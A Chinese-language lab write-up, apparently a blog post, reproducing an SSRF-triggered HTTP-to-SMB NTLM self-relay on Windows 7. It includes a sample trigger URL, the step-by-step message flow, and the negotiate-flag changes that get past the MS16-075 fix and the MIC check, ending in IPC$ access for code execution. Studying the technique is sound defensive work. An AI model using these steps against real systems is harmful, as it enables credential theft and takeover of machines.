









环境搭建
实验室环境说明
• 6.1.7601 Service Pack 1 Build 7601
• jdk1.7.0_80
• 工作组环境
实验代码
1 | <%@ page contentType="text/html;charset=UTF-8" language="java" %> |
漏洞复现
使用ultrarelay监听端口，访问url http://172.16.247.130:8888/ssrf.jsp?ssrf=http://172.16.247.1触发ssrf漏洞时可以看到已经把受害机的ntlm hash拿到了。

原理分析
本质上就是一次从http到smb跨协议ntlm relay本机，但是我们知道在 MS16-075之后微软修复了http->smb的本机relay。所以为了绕过这个限制需要将type2(NTLMSSP_CHALLENGE)Negotiate Flags中的0x00004000设置为0，但是设置为0后会出现另外一个问题那就是MIC验证会不通过，为了绕过这个限制又需要把type2 Negotiate Flags中的Negotiate Always Sign设置为0。
响应victim401并开启ntlm认证

victom -> http NTLMSSP_NEGOTIATE -> hacker

hacker -> smb NTLMSSP_NEGOTIATE -> victim

victim->smb NTLMSSP_CHALLENGE -> hacker

hacker->http NTLMSSP_CHALLENGE -> victim，重点就在这步在给victim的http应答中将0x00004000和Negotiate Always Sign都设置为了0。

victim-> http NTLMSSP_AUTH ->hacker

hacker-> smb NTLMSSP_AUTH ->victim

后面认证成功后，响应victim 404，并连接victim的IPC$进行后续rce操作。

成功条件
• http->smb未打新补丁
• 工作条件环境下需要administrator（sid 500）
• 一个ssrf或者xxe的点
参考
Ntlm Relay is dead, Long Live Ntlm Relay
Ntlm-Relay-Reloaded-Attack-methods-you-do-not-know
ntlmrelay